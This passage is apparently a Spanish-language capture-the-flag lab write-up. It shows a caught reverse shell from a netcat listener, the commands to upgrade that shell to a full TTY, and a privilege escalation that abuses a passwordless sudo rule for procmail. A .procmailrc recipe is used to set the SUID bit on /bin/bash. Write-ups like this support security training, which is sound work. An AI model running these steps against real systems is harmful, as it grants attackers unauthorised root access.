 ```
listening on [any] 7777 ...
connect to [192.168.28.5] from (UNKNOWN) [172.17.0.2] 47632
/bin/sh: 0: can't access tty; job control turned off
$ whoami
system
```

### Sanitizar la shell (TTY)

```shell
script /dev/null -c bash
```

```shell
# <Ctrl> + <z>
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=/bin/bash

# Para ver las dimensiones de nuestra consola en el Host
stty size

# Para redimensionar la consola ajustando los parametros adecuados
stty rows <ROWS> columns <COLUMNS>
```

## Escalate Privileges

Si hacemos `sudo -l` veremos lo siguiente:

```
Matching Defaults entries for system on 5f8ab1ba9349:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User system may run the following commands on 5f8ab1ba9349:
    (ALL : ALL) NOPASSWD: /usr/bin/procmail
```

Por lo que podremos hacer lo siguiente...

```shell
cd /tmp
```

```shell
nano .procmailrc

#Dentro del nano
TMPFILE="/tmp/pwned2.txt"

:0
| touch $TMPFILE;chmod u+s /bin/bash
```
